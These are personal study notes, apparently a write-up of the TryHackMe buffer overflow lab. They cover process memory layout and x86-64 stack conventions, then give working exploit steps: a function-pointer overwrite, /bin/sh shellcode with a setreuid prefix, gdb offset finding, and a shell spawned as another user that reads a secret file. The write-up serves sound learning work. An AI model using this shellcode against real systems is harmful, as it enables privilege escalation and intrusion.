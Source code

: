 # Buffer overflows

## Process layout

When a program runs on a machine, the computer runs the program as a **process**. 

> Current computer architecture allows multiple processes to be run concurrently(at the same time by a computer)

While these processes may appear to run at the same time, the computer actually switches between the processes very quickly and makes it look like they are running at the same time. Switching between processes is called a **context switch**. 

Since each process may need different information to run(e.g. The current instruction to execute), the operating system has to keep track of all the information in a process. The memory in the process is organized sequentially and has the following layout:

![](https://raw.githubusercontent.com/amirr0r/notes/master/Infosec/Reverse/images/Schema-memoire-programme.png)

- The **stack** contains the information required to run the program. This information would include the _current program counter_, _saved registers_, _local arguments_ and more information. The section after the user stack is unused memory and it is used in case the stack grows(downwards)

- Shared library regions are used to either statically/dynamically link libraries that are used by the program.

- The **heap** increases and decreases dynamically depending on whether a program _dynamically_ assigns memory. Notice there is a section that is unassigned above the heap which is used in the event that the size of the heap increases.

- The program code and data stores the program executable and initialized variables

## x86-64 Procedures 

The top of the stack is at the lowest memory address and the stack grows towards lower memory addresses.

![](https://raw.githubusercontent.com/amirr0r/notes/master/Infosec/Reverse/images/stack.png)

- `push var` => push a value onto the stack
    + Decrements the stack pointer (known as `rsp`) by 8
    + Writes above value to new location of `rsp`, which is now the top of the stack
- `pop var` => reads the value at the address given by the stack pointer and pop it off the stack.
    + Increment the stack pointer by 8
    + Store the value that was read from `rsp` into `var`

Each compiled program may include multiple functions, where each function would need to store local variables, arguments passed to the function and more. To make this easy to manage, each function has its own separate stack frame, where each new stack frame is allocated when a function is called, and deallocated when the function is complete. 

![](https://i.imgur.com/0OsNBwQ.png

- `rax` is caller saved
- `rdi`, `rsi`, `rdx`, `rcx` `r8` and `r9` are called saved(and they are usually arguments for functions)
- `r10`, `r11` are caller saved
- `rbx`, `r12`, `r13`, `r14` are callee saved 
- `rbp` is also callee saved(and can be optionally used as a frame pointer)
- `rsp` is callee saved

## Endianess

Let's say we want to represent `0x12345678`.

Little Endian is where the value is arranged from the least significant byte to the most significant byte:

![](https://i.imgur.com/tSYo8AS.png)

Big Endian is where the value is arranged from the most significant byte to the least significant byte:

![](https://i.imgur.com/ltUjHQ7.png)

## Overwriting Function Pointers 

1. Retrieve the `special()` address:

    ```console
    [user1@ip-10-10-58-204 overflow-2]$ nm func-pointer | grep special
    0000000000400567 T special
    ```

2. In Kali (Python shell), print the address (``) in Little Endian:

    ```python
    >>> import pwn
    >>> pwn.p64(0x0000000000400567)
    'g\x05@\x00\x00\x00\x00\x00'
    ```

3. Exploit the buffer overflow:

    ```console
    [user1@ip-10-10-58-204 overflow-2]$ python -c "print('A' * 14 + 'g\x05@\x00\x00\x00\x00\x00')" | ./func-pointer 
    this is the special function
    you did this, friend!
    ```

## Buffer Overflow 1

- `python -c "print (NOP * no_of_nops + shellcode + random_data * no_of_random_data + memory address)"`

- `python -c "print('\x90' * 30 + '\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05' + '\x41' * 60 +  '\xef\xbe\xad\xde') | ./program_name"`

- Use `gdb` to calculate the offset:

```bash
[user1@ip-10-10-58-204 overflow-3]$ gdb -q ./buffer-overflow
Reading symbols from ./buffer-overflow...(no debugging symbols found)...done.
(gdb) run $(python -c "print('A'*144)")
Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print('A'*144)")
Missing separate debuginfos, use: debuginfo-install glibc-2.26-32.amzn2.0.1.x86_64
Here's a program that echo's out your input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000000200000000 in ?? ()

...

(gdb) run $(python -c "print('A'*158)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print('A'*158)")
Here's a program that echo's out your input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000414141414141 in ?? ()
```

We're now able to wryte **6 bytes**!

- Getting the return address of our shellcode:

```bash
(gdb) run $(python -c "print('\x90'*90 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*22 + 'B'*6)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print('\x90'*90 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*22 + 'B'*6)")
Here's a program that echo's out your input
������������������������������������������������������������������������������������������j;XH1�I�//bin/shI�APH��RWH��j<XH1�����������������������BBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x0000424242424242 in ?? ()
(gdb) x/100x $rsp-200
0x7fffffffe228: 0x00400450      0x00000000      0xffffe3e0      0x00007fff
0x7fffffffe238: 0x00400561      0x00000000      0xf7dce8c0      0x00007fff
0x7fffffffe248: 0xffffe649      0x00007fff      0x90909090      0x90909090
0x7fffffffe258: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe268: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe278: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe288: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe298: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe2a8: 0x3b6a9090      0xd2314858      0x2f2fb849      0x2f6e6962
0x7fffffffe2b8: 0xc1496873      0x504108e8      0x52e78948      0xe6894857
0x7fffffffe2c8: 0x3c6a050f      0xff314858      0x9090050f      0x90909090
0x7fffffffe2d8: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe2e8: 0x42424242      0x00004242      0xffffe3e8      0x00007fff
0x7fffffffe2f8: 0x00000000      0x00000002      0x004005a0      0x00000000
0x7fffffffe308: 0xf7a4302a      0x00007fff      0x00000000      0x00000000
0x7fffffffe318: 0xffffe3e8      0x00007fff      0x00040000      0x00000002
0x7fffffffe328: 0x00400564      0x00000000      0x00000000      0x00000000
0x7fffffffe338: 0xf7c96812      0xce86949f      0x00400450      0x00000000
0x7fffffffe348: 0xffffe3e0      0x00007fff      0x00000000      0x00000000
0x7fffffffe358: 0x00000000      0x00000000      0x3aa96812      0x31796be0
0x7fffffffe368: 0xa34d6812      0x31797b57      0x00000000      0x00000000
0x7fffffffe378: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffe388: 0xffffe400      0x00007fff      0xf7ffe130      0x00007fff
0x7fffffffe398: 0xf7de7656      0x00007fff      0x00000000      0x00000000
0x7fffffffe3a8: 0x00000000      0x00000000      0x00000000      0x00000000
```

The address `0x7fffffffe288` works fine (any address between the NOP sled and the shellcode will work)

-  Use `pwntools` to generate a prefix to our shellcode to run `SETREUID`:

```bash
$ pwn shellcraft -f d amd64.linux.setreuid 1002
\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05
$ python
>>> len('\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05')
14
```

- Our payload:

```
┌───────────────────┬────────────────────┬────────────────────┬────────────────────┬────────────────────┐
│ NOP sled (90)     │  setreuid (14)     │ shellcode (40)     │ random chars (8)   │ Memory address (6) │
└───────────────────┴────────────────────┴────────────────────┴────────────────────┴────────────────────┘
total length = 90 + 14 + 40 + 8 + 6 = 158
```

- Finally:

```console
[user1@ip-10-10-58-204 overflow-3]$ ls -lah
total 20K
drwxrwxr-x 2 user1 user1   72 Sep  2  2019 .
drwx------ 7 user1 user1  169 Nov 27  2019 ..
-rwsrwxr-x 1 user2 user2 8.1K Sep  2  2019 buffer-overflow
-rw-rw-r-- 1 user1 user1  285 Sep  2  2019 buffer-overflow.c
-rw------- 1 user2 user2   22 Sep  2  2019 secret.txt
[user1@ip-10-10-58-204 overflow-3]$ ./buffer-overflow $(python -c "print('\x90'*90 + '\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05' + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*8 + '\x88\xe2\xff\xff\xff\x7f')")
Here's a program that echo's out your input
������������������������������������������������������������������������������������������1�f��jqXH��j;XH1�I�//bin/shI�APH��RWH��j<XH1��������������
sh-4.2$ ls
buffer-overflow  buffer-overflow.c  secret.txt
sh-4.2$ cat secret.txt 
omgyoudidthissocool!!
sh-4.2$ 
```

- [Shellcode link](https://www.arsouyes.org/blog/2019/54_Shellcode/)

## Buffer Overflow 2

Same process as previous task

## Useful link

- [aldeid THM Buffer overflows](https://www.aldeid.com/wiki/TryHackMe-Buffer-Overflows#Buffer_Overflows)